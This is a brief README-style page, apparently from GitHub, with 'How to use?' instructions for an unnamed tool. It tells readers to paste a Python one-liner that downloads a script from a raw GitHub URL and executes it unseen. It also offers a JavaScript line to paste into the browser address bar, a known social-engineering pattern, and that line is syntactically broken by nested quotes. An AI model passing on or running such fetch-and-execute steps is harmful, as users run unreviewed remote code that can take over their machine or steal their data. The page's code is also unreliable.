 # How to use?
## On your code/python prompt you copy and paste this code:
### `exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)`
## If you are lazy to copy it paste just copy and paste this code into the address bar (only works for computer)
### `navigator.clipboard.writeText('exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)');`
